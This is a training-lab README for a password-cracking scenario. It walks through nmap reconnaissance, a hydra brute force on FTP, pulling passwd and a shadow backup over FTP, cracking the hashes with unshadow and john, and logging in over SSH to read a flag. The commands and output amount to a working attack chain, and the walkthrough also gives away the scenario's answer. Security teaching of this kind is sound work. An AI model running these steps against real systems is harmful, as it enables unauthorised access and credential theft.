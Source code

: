 # Password Cracking Scenario
The aim of this scenario is to familiarize participants with common
security issues in operating systems by performing offensive tasks
such as reconnaissance and password cracking. Trainees will be able to
obtain insecure user credentials through brute-force attacks,
eventually getting SSH access to a victim system. 

The scenario simulates an company internal network and is composed of:

+ A previously compromised Linux machine (A), with the required attack
  tools.
+ A victim workstation (V) to use as target of the attack.


The user will use two common brute force tools:
+ [John the Ripper](http://www.openwall.com/john)
+ [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)

## Scenario objective:

Get SSH access to the victim and obtain the file `flag.txt` located in
the homedir of the user used to connect to the machine.

## Scenario resolution
The necessary steps to solve the scenario are as follows:

1. **Reconnaissance:** The first step is to do basic reconnaissance to
   discover services provided by the victim:
   ```console
   trainee01@attacker$ nmap 10.0.1.5
   Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-28 13:43 UTC
   Nmap scan report for ip-10-0-1-5.ec2.internal (10.0.1.5)
   Host is up (0.0019s latency).
   Not shown: 998 closed ports
   PORT   STATE SERVICE
   21/tcp open  ftp
   22/tcp open  ssh

   Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
   ```
2. **Compile a list of possible usernames:** Using the information
   obtained from the company web site, found in `employees.html`,
   compile a list of possible usernames. The first user (crackable
   with `hydra`) is among the employees without a published email
   address, so trainees will have to fill out this information for all
   users, making an educated guess as to the username assignment
   policy.

3. **Find the first user (FTP):** Port-scanning shows that the victim
   offers the FTP service. Perform a brute-force attack with `hydra`,
   using the generated username list and options `-e nsr` to try
   passwords equal to the username, the reverse, and empty:
   ```console
   trainee01@attacker$ hydra -L userlist -ensr ftp://10.0.1.5
   [...]
   [DATA] max 16 tasks per 1 server, overall 16 tasks, 696 login tries (l:232/p:3), ~44 tries per task
   [DATA] attacking ftp://10.0.1.5:21/
	   [21][ftp] host: 10.0.1.5  login: aarevalo   password: aarevalo
   [...]
   1 of 1 target successfully completed, 1 valid password found
   ```

   Since this user has no shell, it can only be used to connect to the
   FTP service. Through the FTP service one can download the
   `/etc/passwd` file, since the service is not isolated correctly (no
   chroot), and a backup of the shadow file `shadow.bak`:
   ```console
   trainee01@attacker$ ssh aarevalo@10.0.1.5
   aarevalo@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   This account is currently not available.
   Connection to 10.0.1.5 closed.
  
   trainee01@attacker$ ftp ftp://aarevalo:aarevalo@10.0.1.5
   Connected to 10.0.1.5.
   220 (vsFTPd 3.0.5)
   331 Please specify the password.
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   200 Switching to Binary mode.
   ftp> ls
   229 Entering Extended Passive Mode (|||54914|)
   150 Here comes the directory listing.
   -rw-r--r--    1 1001     1001         1721 Oct 31 20:56 shadow.bak
   226 Directory send OK.
   ftp> get shadow.bak
   local: shadow.bak remote: shadow.bak
   229 Entering Extended Passive Mode (|||29207|)
   150 Opening BINARY mode data connection for shadow.bak (2305 bytes).
   100% |**************************|  1721       27.47 MiB/s    00:00 ETA
   226 Transfer complete.
   1721 bytes received in 00:00 (2.47 MiB/s)
   ftp> cd /etc
   250 Directory successfully changed.
   ftp> get passwd
   local: passwd remote: passwd
   229 Entering Extended Passive Mode (|||19306|)
   150 Opening BINARY mode data connection for passwd (2307 bytes).
   100% |**************************|  2307       27.50 MiB/s    00:00 ETA
   226 Transfer complete.
   2307 bytes received in 00:00 (1.29 MiB/s)
   ftp> exit
   221 Goodbye.
   ```
    
4. **Crack the second user:** Using the `unshadow` command,
   combine the information from the passwd and shadow files:
   ```console
   trainee01@attacker$ unshadow passwd shadow.bak > tocrack
   trainee01@attacker$ cat tocrack
   ...
   daguirre:$6$rounds=656000$bimfuxpo$RptBix...:1004:1004:Diego Aguirre:/home/daguirre:/bin/bash
   aarevalo:$6$rounds=656000$bvvdpknf$AA1j2y4...:1005:1005:Andres Arevalo:/home/aarevalo:/usr/sbin/nologin
   ```

   Using the unshadowed file, crack the remaining password with john:
   ```console
   trainee01@attacker$ john --single tocrack
   Created directory: /home/trainee01/.john
   Loaded 2 password hashes with 2 different salts [...]
   aarevalo         (aarevalo)
   aguirrediego!    (daguirre)
   ```

   John immediately finds the FTP user password *aarevalo* (that is the
   same as the username), and a few seconds later, *daguirre*'s that
   is based on their gecos information. This user has SSH access to
   the victim. The flag can be found in their homedir:
   ```console
   trainee01@attacker$ ssh daguirre@10.0.1.5
   daguirre@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   daguirre@victim-1$ cat flag.txt
   01i=^k{+`l3&8as$4zc2)d?[@-~ge7m1
   ```

## Assessment

The assessment is based on a set of Elastic Security SIEM rules. 
As students progress through the resolution, they will generate alerts based on key events identified by these rules. 
The alerts can be analyzed from the Security - Alerts menu in Kibana.









